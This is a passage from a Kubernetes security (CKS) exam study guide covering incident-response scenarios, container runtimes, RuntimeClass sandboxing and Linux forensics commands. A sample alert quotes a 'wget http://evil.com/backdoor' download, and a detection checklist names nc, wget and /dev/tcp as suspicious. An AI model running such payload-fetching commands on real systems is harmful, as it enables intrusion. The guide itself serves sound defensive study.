# - Add readOnlyRootFilesystem: true to prevent apt-get from working
# - Use distroless base image (no apt-get available)
# - Drop ALL capabilities
# - Apply restricted PSA
```
</details>

---

**Scenario IR-09: Binary Dropped in Container**

Falco alert: "Binary written to container filesystem (file=/tmp/backdoor command=wget http://evil.com/backdoor container=app-server)".

<details>
<summary>Response Steps</summary>

```bash
# 1. Check if the binary was executed
kubectl exec <pod> -n <ns> -- ps aux
# Look for: /tmp/backdoor process

# 2. Analyze the binary (if safe to do so)
kubectl exec <pod> -n <ns> -- file /tmp/backdoor
kubectl exec <pod> -n <ns> -- ls -la /tmp/backdoor

# 3. Check network connections from the binary
kubectl exec <pod> -n <ns> -- ss -tnp | grep backdoor

# 4. Capture the binary hash for threat intel
kubectl exec <pod> -n <ns> -- sha256sum /tmp/backdoor

# 5. Kill the pod
kubectl delete pod <pod> -n <ns>

# 6. Investigate how wget was available
# - Was wget in the base image? (image bloat)
# - Was there a vulnerability that allowed command execution?

# 7. Remediate
# - readOnlyRootFilesystem: true
# - Use emptyDir with sizeLimit for /tmp
# - Drop all capabilities
# - Egress NetworkPolicy restricting outbound
```
</details>

---

**Scenario IR-10: Suspicious API Server Access Patterns**

Audit logs show rapid-fire list/get requests for pods, services, secrets, configmaps, deployments across all namespaces from a single ServiceAccount. This looks like automated cluster enumeration.

<details>
<summary>Response Steps</summary>

```bash
# 1. Identify the source
cat /var/log/kubernetes/audit/audit.log | \
  jq 'select(.verb=="list") | {user: .user.username, resource: .objectRef.resource, time: .requestReceivedTimestamp}' | \
  head -50

# 2. Determine scope of enumeration
cat /var/log/kubernetes/audit/audit.log | \
  jq 'select(.user.username=="system:serviceaccount:<ns>:<sa>") | .objectRef.resource' | sort | uniq -c | sort -rn

# 3. Check if the attacker obtained any sensitive data
cat /var/log/kubernetes/audit/audit.log | \
  jq 'select(.user.username=="system:serviceaccount:<ns>:<sa>" and .objectRef.resource=="secrets" and .responseStatus.code==200)'

# 4. Revoke access immediately
# Delete the RBAC binding
kubectl delete clusterrolebinding <binding>
# If you can't identify the binding, delete all pods using the SA to invalidate tokens
kubectl delete pods -n <ns> -l <label-selector>

# 5. Check if the SA token was extracted from a pod
# The sourceIP in audit logs will tell you if requests came from expected pod IPs

# 6. Remediate
# - Implement least-privilege RBAC
# - Disable SA token automount
# - Add audit policy to alert on enumeration patterns
# - Consider using OPA/Kyverno to limit API access patterns
```
</details>

---

## 5. Container Runtime Security

**[VERIFIED CKS CONTENT]** -- The CKS curriculum covers sandboxed containers under "Minimize Microservice Vulnerabilities" (Domain 4) and containerd/crictl is the assumed runtime.

### 5.1 containerd as Current Runtime

Since Kubernetes 1.24, Docker/dockershim is removed. **containerd** is the standard CRI-compliant container runtime. The CKS exam environment uses containerd.

```bash
# Verify runtime on a node
kubectl get nodes -o wide
# CONTAINER-RUNTIME column shows "containerd://x.y.z"

# Check containerd service
systemctl status containerd

# containerd configuration
cat /etc/containerd/config.toml
```

### 5.2 crictl Commands for CKS

**[VERIFIED]** -- crictl reference from official Kubernetes documentation.

`crictl` is the CLI tool for CRI-compatible runtimes. Essential for debugging on CKS exam nodes:

```bash
# Configuration
export CONTAINER_RUNTIME_ENDPOINT=unix:///var/run/containerd/containerd.sock
# Or create /etc/crictl.yaml:
# runtime-endpoint: unix:///var/run/containerd/containerd.sock

# --- Container Operations ---
crictl ps                       # List running containers
crictl ps -a                    # List all containers (including stopped)
crictl inspect <container-id>   # Detailed container info (JSON)
crictl logs <container-id>      # Container logs
crictl logs --tail=20 <cid>     # Last 20 lines
crictl exec -it <cid> <cmd>     # Execute command in container
crictl stop <container-id>      # Stop a container
crictl rm <container-id>        # Remove a container

# --- Pod Operations ---
crictl pods                     # List all pods
crictl pods --name <name>       # Filter by pod name
crictl pods --label run=nginx   # Filter by label
crictl inspectp <pod-id>        # Inspect pod sandbox

# --- Image Operations ---
crictl images                   # List images
crictl images nginx             # Filter by repository
crictl images -q                # List image IDs only
crictl pull <image>             # Pull an image
crictl rmi <image-id>           # Remove an image

# --- When to use crictl vs kubectl ---
# crictl: node-level debugging, when API server is down, checking runtime state
# kubectl: cluster-level operations, normal operations
```

**CKS Exam Tip**: If the API server is not responding, use `crictl` to check if the kube-apiserver container is running:
```bash
crictl ps | grep apiserver
crictl logs <apiserver-container-id>
```

### 5.3 RuntimeClass and Sandboxed Runtimes

**[VERIFIED CKS CONTENT]** -- "Understand and implement isolation techniques (sandboxed containers)" is in Domain 4 of CKS.

RuntimeClass allows you to run pods with different container runtimes for enhanced isolation. Two key sandboxed runtimes:

| Runtime   | How it works                                    | Use case                         |
|-----------|------------------------------------------------|----------------------------------|
| **gVisor** (runsc) | User-space kernel that intercepts syscalls | Untrusted workloads, multi-tenant |
| **Kata Containers** | Lightweight VMs per container/pod      | Strong isolation, compliance     |

#### RuntimeClass Definition (gVisor)

```yaml
# Step 1: Create RuntimeClass
apiVersion: node.k8s.io/v1
kind: RuntimeClass
metadata:
  name: gvisor                  # Name referenced by pods
handler: runsc                  # CRI handler name (configured in containerd)
scheduling:
  nodeSelector:
    runtime: gvisor             # Only schedule on nodes with gVisor
overhead:
  podFixed:
    memory: "200Mi"             # Additional memory overhead for gVisor
    cpu: "100m"
```

#### containerd Configuration for gVisor

```toml
# /etc/containerd/config.toml
[plugins."io.containerd.grpc.v1.cri".containerd.runtimes.runsc]
  runtime_type = "io.containerd.runsc.v1"
```

#### Kata Containers RuntimeClass

```yaml
apiVersion: node.k8s.io/v1
kind: RuntimeClass
metadata:
  name: kata
handler: kata-runtime
scheduling:
  nodeSelector:
    runtime: kata
  tolerations:
  - key: "kata-runtime"
    operator: "Equal"
    value: "true"
    effect: "NoSchedule"
overhead:
  podFixed:
    memory: "160Mi"
    cpu: "250m"
```

#### Pod Using RuntimeClass

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: sandboxed-pod
spec:
  runtimeClassName: gvisor       # KEY: reference the RuntimeClass
  containers:
  - name: untrusted-app
    image: untrusted-app:latest
    resources:
      requests:
        memory: "64Mi"
        cpu: "100m"
```

**Key points for CKS:**
- RuntimeClass is **non-namespaced** (cluster-wide resource)
- If the referenced RuntimeClass does not exist, the Pod enters `Failed` phase
- The `handler` field must match a handler configured in containerd/CRI-O on the node
- Pod overhead is automatically added to resource calculations by the scheduler
- Security: restrict who can create/modify RuntimeClass objects via RBAC

### 5.4 Container Immutability at Runtime

Reinforcing immutability from the container runtime perspective:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: immutable-secure-pod
spec:
  containers:
  - name: app
    image: gcr.io/distroless/static-debian12   # Minimal image, no shell
    securityContext:
      readOnlyRootFilesystem: true              # No writes to root fs
      runAsNonRoot: true                        # Must run as non-root
      runAsUser: 65534                          # nobody user
      allowPrivilegeEscalation: false           # No setuid
      capabilities:
        drop: ["ALL"]                           # No Linux capabilities
      seccompProfile:
        type: RuntimeDefault                    # Default seccomp profile
    volumeMounts:
    - name: tmp
      mountPath: /tmp
  volumes:
  - name: tmp
    emptyDir:
      sizeLimit: "100Mi"                        # Limit writable space
```

---

## 6. Linux Process Inspection

**[VERIFIED CKS CONTENT]** -- Required for "Investigate and identify phases of attack" and forensics tasks.

### 6.1 Process Inspection Commands

```bash
# List all processes
ps aux
# USER  PID  %CPU %MEM  VSZ   RSS  TTY  STAT START TIME COMMAND

# Process tree (shows parent-child relationships)
ps auxf
ps -ef --forest

# Find specific process
ps aux | grep <process-name>

# Find process by port
ss -tlnp | grep :<port>
# Shows which process is listening on a port
```

### 6.2 The /proc Filesystem

The `/proc` filesystem is a virtual filesystem exposing kernel and process information:

```bash
# For a process with PID 1234:
/proc/1234/cmdline      # Command line that started the process
/proc/1234/environ      # Environment variables
/proc/1234/exe          # Symlink to the executable
/proc/1234/fd/          # Open file descriptors
/proc/1234/status       # Process status (name, state, UIDs, GIDs)
/proc/1234/maps         # Memory mappings
/proc/1234/cgroup       # cgroup membership (identifies container)
/proc/1234/ns/          # Namespace information

# Useful for forensics:
cat /proc/1234/cmdline | tr '\0' ' '    # Read full command line
ls -la /proc/1234/exe                   # What binary is running
cat /proc/1234/status | grep -i uid     # Real and effective UID
ls -la /proc/1234/fd/                   # What files are open
cat /proc/1234/environ | tr '\0' '\n'   # All env vars
```

### 6.3 Network Inspection

```bash
# TCP listeners
ss -tlnp
# -t TCP, -l listening, -n numeric (no DNS), -p process

# UDP listeners
ss -ulnp

# All active connections
ss -tnp

# All connections with state
ss -tnap

# Filter by port
ss -tlnp | grep :8080

# Alternative: netstat (if available)
netstat -tlnp    # TCP listeners
netstat -tnp     # Active TCP connections

# DNS resolution check
nslookup <hostname>
dig <hostname>
```

### 6.4 Finding Suspicious Processes in Containers

```bash
# Inside a container (via kubectl exec):
kubectl exec <pod> -- ps aux

# Key things to look for:
# 1. Processes NOT related to the application (bash, sh, nc, wget, python)
# 2. Processes running as root (uid=0) when app should be non-root
# 3. Processes with suspicious command lines (encoded strings, /dev/tcp)
# 4. Multiple processes when container should run single process

# From the host node (using crictl):
# Find the container PID
crictl inspect <container-id> | jq .info.pid
# Then inspect from host:
ls -la /proc/<pid>/exe
cat /proc/<pid>/cmdline | tr '\0' ' '
ls -la /proc/<pid>/fd/
```

### 6.5 strace Basics (if available)

```bash
# Trace system calls of a running process
strace -p <pid>

# Trace specific syscalls
strace -e trace=open,read,write -p <pid>

# Trace network-related syscalls
strace -e trace=network -p <pid>

# Trace with timestamps
strace -t -p <pid>

# Note: strace requires SYS_PTRACE capability
# In CKS context, this is mainly used for host-level analysis
```

---

## Quick Reference Card

### Falco Cheat Sheet

```bash
# Check Falco status
systemctl status falco                    # systemd
kubectl get pods -n falco                 # K8s

# Validate rules
falco --validate /etc/falco/falco_rules.local.yaml

# Test with specific rule file
falco -r /etc/falco/falco_rules.local.yaml

# View Falco logs (K8s)
kubectl logs -n falco -l app.kubernetes.io/name=falco --tail=50

# Key rule file
/etc/falco/falco_rules.local.yaml         # YOUR custom rules go here
```

### Audit Logging Cheat Sheet

```bash
# API server flags
--audit-policy-file=/etc/kubernetes/audit/policy.yaml
--audit-log-path=/var/log/kubernetes/audit/audit.log
--audit-log-maxage=30
--audit-log-maxbackup=10
--audit-log-maxsize=100

# Read audit logs
cat /var/log/kubernetes/audit/audit.log | jq .
# Filter by user
cat /var/log/kubernetes/audit/audit.log | jq 'select(.user.username=="<user>")'
# Filter by resource
cat /var/log/kubernetes/audit/audit.log | jq 'select(.objectRef.resource=="secrets")'
# Filter by verb
cat /var/log/kubernetes/audit/audit.log | jq 'select(.verb=="delete")'
```

### Forensics Cheat Sheet

```bash
# Rapid investigation commands
kubectl describe pod <pod> -n <ns>        # Pod details
kubectl logs <pod> -n <ns>                # Application logs
kubectl exec <pod> -n <ns> -- ps aux      # Running processes
kubectl exec <pod> -n <ns> -- ss -tnp     # Network connections
kubectl exec <pod> -n <ns> -- env         # Environment variables
kubectl exec <pod> -n <ns> -- find / -newer /proc/1/cmdline -type f 2>/dev/null  # Modified files

# Isolate pod
kubectl apply -f deny-all-netpol.yaml     # Network isolation
kubectl cordon <node>                     # Prevent scheduling
kubectl delete pod <pod> -n <ns>          # Remove threat

# Host-level investigation
crictl ps | grep <name>                   # Find container
crictl inspect <cid> | jq .info.pid       # Get host PID
crictl logs <cid>                         # Container logs
```

---

## CKS Exam Tips for Runtime Security

1. **Time management**: Audit policy and Falco rule questions can be quick wins if you know the syntax. Practice writing them from scratch.

2. **Volume mounts are the #1 gotcha**: When enabling audit logging, forgetting volumes or volumeMounts in the API server manifest will break the API server. Double-check these.

3. **API server restart**: After modifying `/etc/kubernetes/manifests/kube-apiserver.yaml`, the kubelet auto-restarts it. If it doesn't come back, use `crictl` to debug.

4. **Rule ordering matters**: In audit policies, rules are matched top-to-bottom. First match wins. Put specific rules before general catch-all rules.

5. **Falco custom rules**: Always use `/etc/falco/falco_rules.local.yaml` for custom rules. Never modify the default rules file.

6. **Use macros and lists**: They make rules readable and reusable. The exam may provide existing macros you should leverage.

7. **Container immutability**: Remember the three pillars -- `readOnlyRootFilesystem`, distroless images, and `allowPrivilegeEscalation: false`.

8. **crictl over docker**: The CKS exam uses containerd. Use `crictl` commands, not `docker` commands.

9. **Network isolation**: A deny-all NetworkPolicy is the fastest way to isolate a compromised pod during incident response.

10. **Audit log analysis**: Practice reading JSON audit log entries. Know how to extract user, resource, verb, and response code using `jq`.
